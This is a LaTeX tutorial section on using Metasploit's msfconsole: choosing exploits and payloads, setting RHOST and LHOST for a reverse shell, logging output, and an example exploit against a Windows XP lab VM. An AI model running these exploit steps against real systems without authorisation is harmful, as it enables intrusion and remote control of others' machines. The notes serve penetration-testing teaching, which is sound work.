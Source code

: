 \documentclass{article}[12pt]
\begin{document}
\subsection{msfconsole}
In order to use metasploit framework you can go directly to Applications->Exploitation tools and go to Metasploit.
This approach will run the terminal simultaneously running all
data bases and services in the background.
If you wish you can run Metasploit directly from terminal by typing \texttt{msfconsole} but you might need to run postgresql service (\texttt{service postgresql start}).

\subsubsection{Searching for exploits, run exploit}

Now you need to see the info, options and payloads for the exploit by typing: \texttt{info, options, show payloads} respectively.
If you know what exploit you will be using you can directly type into msf console the following line:
\texttt{use <exploit/name>}.
If you do not know the exploit you can check it online on www.rapid7.com
or by typing in msf console \texttt{search <exploit/tag/orname>} and then you can \texttt{use} it.
Afterwards you are moved to exploit subconsole.
Now you need to set the payload: \texttt{set payload <payload/name>},
then if you type \texttt{options} again, you will see all mandatory options (for listener and reciever).
Now is time for setting up the options e.g: \texttt{set RHOST 192.168.4.56} or \texttt{set LHOST 192.168.4.56}
if you are using reverse shell (pushing the connection back to the listener (attack machine) rather than
waiting for an incoming connection from target which is more likely to make connection through firewall \cite{pen}).

\subsubsection{Outputing data}
If you want to output data somewhere (which is VERY usefull) you can use spooling before you start exploiting.
Just type in msf console (before running exploit) \texttt{spool <file-name.txt/log/etc>}.
In order to turn off spooling use \texttt{spool off}.
Spool saves the whole terminal output stream.
\paragraph{Example}
In this example you will get control over the Windows XP SP3 system which you installed as VM. In msfconsole run the following: \newline\newline
\texttt{use/windows/pop3/seattlelab\_pass} \newline
\texttt{set RHOST XXX.XXX.XXX.XXX} (your target IP) \newline and run the exploit by typing: \newline \texttt{exploit} \newline \newline
\end{document}
